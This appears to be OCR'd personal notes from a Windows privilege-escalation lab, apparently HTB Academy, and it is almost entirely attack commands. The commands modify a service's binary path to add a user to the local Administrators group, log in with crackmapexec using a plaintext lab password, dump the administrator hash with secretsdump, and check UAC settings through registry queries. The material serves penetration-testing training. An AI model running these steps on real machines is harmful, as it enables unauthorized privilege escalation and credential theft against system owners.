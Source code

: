    - Download Psservice :
```sh
wget https://learn.microsoft.com/en-us/sysinternals/downloads/psservice
```

   - Checking Service Permissions :
```cmd
c:\Tools\PsService.exe security AppReadiness
```

- Modifying the Service Binary Path

```sh
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

- Retrieve Credential :

```sh
crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'

secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
```


### OS Exploitation
#### User Account Control
#UAC

- Confirming UAC is Enabled :
```shell
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

- Checking UAC Level :
```cmd-session
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

- If **0** then, UAC won't prompt (like **disabled**)
    
- If **1** the admin is **asked for username and password** to execute the binary with high rights (on Secure Desktop)
    
- If **2** (**Always notify me**) UAC will always ask for confirmation to the administrator when he tries to execute something with high privileges (on Secure Desktop)
    
- If **3** like `1` but not necessary on Secure Desktop
    
- If **4** like `2` but not necessary on Secure Desktop
    
- if **5**(**default**) it will ask the administrator to confirm to run non Windows binaries with high privileges
- Checking Windows Version
```powershell
[environment]::OSVersion.Version
```
